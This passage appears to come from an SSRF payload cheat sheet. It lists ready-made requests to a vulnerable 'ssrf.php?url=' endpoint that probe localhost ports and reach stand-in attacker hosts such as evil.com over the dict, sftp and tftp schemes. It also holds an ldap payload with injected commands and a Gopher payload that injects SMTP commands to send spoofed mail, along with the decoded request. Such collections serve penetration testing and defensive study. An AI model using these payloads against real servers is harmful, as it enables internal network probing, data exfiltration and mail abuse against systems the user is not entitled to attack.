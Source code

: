 ```powershell
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

![SSRF stream](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/SSRF_stream.png?raw=true)

The following URL scheme can be used to probe the network

### Dict

The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

```powershell
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

### SFTP 

A network protocol used for secure file transfer over secure shell

```powershell
ssrf.php?url=sftp://evil.com:11111/
```

### TFTP

Trivial File Transfer Protocol, works over UDP

```powershell
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

### LDAP

Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

```powershell
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

### Gopher

```powershell
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a

will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH

You didn't say the magic word !


.
QUIT
```